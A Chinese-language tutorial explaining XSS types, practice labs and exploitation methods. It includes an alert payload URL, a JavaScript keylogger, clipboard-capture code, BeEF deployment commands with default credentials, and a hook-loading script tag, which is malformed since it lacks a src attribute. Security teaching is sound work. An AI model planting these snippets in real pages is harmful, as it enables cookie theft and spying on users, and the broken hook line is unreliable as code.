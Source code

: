 [[toc]]

## 背景

- 常见的Web 漏洞中，XSS（Cross-site Script，跨站脚本）漏洞无疑是最多见的。
- 根据 HackerOne 漏洞奖励平台发布的 The 2020 Hacker Report，XSS 漏洞类型占所有报告漏洞中的 23％，排名第一。
- 跨站脚本（Cross-site Script），按理应该简称为 CSS，但为了与层叠样式表（CSS）区分开，特意改为 XSS。

## 原理

- 指的是网站对用户输入数据未做有效过滤，攻击者可以将恶意脚本注入网站页面中，达到执行恶意代码的目的。
- 攻击者只需要诱使受害者打开特定的网址，就可以在受害者的浏览器中执行被注入的恶意代码。
- 从而窃取用户身份，执行一些敏感操作，或是进行其他的危害行为。
	
## 分类

- 通常XSS分为存储型和反射型，但还有一种比较特殊的DOM型XSS，它本身属于反射型 XSS。
- 因此，按3种类型划分：反射型、存储型、DOM型
1. 反射型
	- 反射型XSS又被称为非持久型跨站脚本，它是将攻击代码放在URL参数中，而不是存储到服务器，因此需要诱使用户点击才能触发攻击。
	`例如：https://www.xxx.com/?name=<script>alert('wahaha')</script>`
	- 靶场：DVWA
2. 存储型
	- 又被称为持久型跨站脚本。攻击者将恶意代码存储到服务器上，只要诱使受害者访问被插入恶意代码的页面即可触发。
	- 存储型 XSS 经常出现在一些可以发表评论的地方，如帖子、博客。
	- 存储型 XSS 的特点就是不需要在诱使用户访问的URL中包含攻击代码，因为它已经存储到了服务器中，只需要让用户访问包含输出攻击代码的页面即可
	- 靶场：DVWA
3. DOM型
	- 基于文档对象模型（Document Object Model，DOM，用于将Web页面与脚本语言链接起来的标准编程接口）的一种漏洞，它不经过服务端，而是通过URL传入参数去触发，因此也属于反射型 XSS。
	- 由于客户端的 JavaScript 可以访问浏览器页面中的 DOM 对象，因此它能够决定如何处理当前页面的 URL，比如获取 URL 中的相关数据进行处理，然后动态更新到页面上。这导致 DOM 型 XSS 的漏洞代码常位于网页的 JavaScript 代码中。
	- 靶场：Pikachu

## XSS漏洞利用

- 介绍一些关于 XSS 漏洞利用的方法，避免停留在 XSS 只能弹框的思想层面
- XSS漏洞最为常见的两种攻击方式就是窃取Cookie劫持他人的会话、蠕虫攻击
1. 窃取Cookie
	- Cookie 是由服务器提供的存储在客户端的数据，允许 JavaScript 访问，常用于识别用户身份和保存会话等功能。如果 Web 应用程序存在 XSS 漏洞，那么攻击者通过注入恶意 JavaScript 脚本就可以窃取到 Cookie，进而以用户身份执行恶意操作。
	- 通过 document.cookie 就可以访问到 Cookie
	- 当一个网站存在 XSS 时，我们就可以通过执行 document.cookie 获取当前受害者的 cookie，前提是要先诱使受害者访问特定的 URL。
	- 网上也有很多开源的XSS平台用来接收 Cookie，在GitHub搜索就可以找到很多，大多数可以直接通过 Docker 快速安装。
2. 蠕虫攻击
	- XSS 蠕虫的实现正是得益于Ajax 技术的出现，而后者正是 Web2.0 的标志性技术。
	- Ajax（Asynchronous JavaScript and XML，异步 JavaScript 和 XML）是指一种创建交互式网页应用的网页开发技术。
	- 具体讲就是在我们浏览网页，做一些操作时，可以减少浏览器的一些页面重绘操作，避免出现页面抖动、闪现之类的不适体验。
	- Ajax 中的核心技术就是 XMLHttpRequest，它允许 JavaScript 脚本与服务器进行通信，在不刷新页面的情况下，向服务器发送请求或是接收服务器的响应数据。
3. 其他攻击方法
	- 键盘记录
	```
	keys = ""
	document.onkeypress = function(){
	  keys += String.fromCharCode(window.event.keyCode);
	}
	```
	- 在 Chrome 浏览器中使用代码截获剪贴板内容
	```
	document.addEventListener('paste', function (evt) {
	  clipdata = evt.clipboardData || window.clipboardData;
	  console.log(clipdata.getData('text/plain'));
	});
	```
	- 方法还有很多，可以参考XSS攻击框架 BeEF
	```
	$ git clone https://github.com/beefproject/beef
	$ cd beef
	$ sudo docker build -t beef .
	$ sudo docker run -p 3000:3000 -p 6789:6789 -p 61985:61985 -p 61986:61986 --name beef beef
	或者
	docker pull janes/beef
	docker run -itd --name xss --rm -p 3000:3000 janes/beef
	打开链接：http://127.0.0.1:3000/ui/panel/
	账号密码：beef/beef
	```
	- 在漏洞页面插入如下代码进行利用
	```
	<script>http://127.0.0.1:3000/hook.js</script>
	```
	受害者访问后，若利用成功的话，在BeEF管理页面（此处为http://ip:3000/ui/panel）就可以看到目标上线了。
	刚运行的时候，BeEF 会生成随机密码，账号为 beef；也可以修改 config.yaml 中的账号密码再运行